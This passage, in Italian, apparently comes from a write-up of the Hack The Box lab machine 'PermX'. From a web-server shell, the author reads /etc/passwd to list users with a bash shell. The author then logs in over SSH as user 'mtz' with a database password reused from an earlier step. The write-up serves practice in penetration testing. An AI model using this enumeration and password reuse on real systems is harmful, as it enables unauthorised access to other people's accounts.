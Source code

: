 Mentre cerchiamo di rompere gli hash vediamo se abbiamo altri utenti su cui possiamo provare la password che abbiamo usato per accedere al database nel caso fosse stata riutilizzata 

usiamo  `cat /etc/passwd | grep -i sh$`  per vedere quali utenti hanno un shell bash

```bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ cat /etc/passwd | grep -i sh$
cat /etc/passwd | grep -i sh$
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

qui vediamo un utente di nome `mtz` proviamo ad usare la password trovata prima per collegarci in ssh 

```bash

kali@kali ~/htb/permx
❯ ssh mtz@10.10.11.23
mtz@10.10.11.23's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Aug 14 04:01:42 PM UTC 2024

  System load:           0.02
  Usage of /:            60.7% of 7.19GB
  Memory usage:          25%
  Swap usage:            0%
  Processes:             303
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.23
  IPv6 address for eth0: dead:beef::250:56ff:fe94:2d1e


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug 14 15:35:01 2024 from 10.10.14.33
mtz@permx:~$
```
